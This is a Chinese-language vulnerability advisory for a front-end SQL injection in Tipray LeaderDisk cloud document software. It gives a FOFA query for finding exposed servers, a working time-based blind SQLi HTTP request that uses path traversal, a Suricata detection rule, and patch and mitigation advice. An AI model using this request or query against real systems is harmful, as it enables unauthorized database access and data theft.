

# 厦门天锐科技股份有限公司天锐绿盘云文档安全管理平台存在前台SQL注入漏洞

厦门天锐科技股份有限公司天锐绿盘云文档安全管理平台存在前台SQL注入漏洞

# 影响版本

< V3.30

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**  body="/lddsm/" || title="天锐绿盘" || title=="Tipray LeaderDisk"

**POC/EXP：**

**step1 延时注入**

```
POST /lddsm/service/../admin/dept/findForPage.do HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

page=1&rows=10&sidx=(SELECT%202005%20FROM%20(SELECT(SLEEP(5)))IEWh)
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"厦门天锐科技天锐绿盘云文档安全管理平台 - /lddsm/service/../admin/dept/findForPage.do 前台SQL注入漏洞";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/lddsm/service/../admin/dept/findForPage.do";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"sidx=";
        content:"SELECT"; nocase; distance:0; within:50;
        content:"SLEEP"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "天锐绿盘云文档安全管理平台",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000730;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系厦门天锐科技官方获取针对该漏洞的安全补丁或升级版本。官方已发布漏洞修复版本。

#### 临时缓解措施

* **关闭互联网暴露面**：将该系统接口限制为仅可信内部 IP 可访问，禁止从互联网直接访问。
* **接口访问权限控制**：在 WAF 或反向代理层面**拦截或限制对**  **​`/lddsm/service/../admin/dept/findForPage.do`​**​ **的异常访问**。

‍
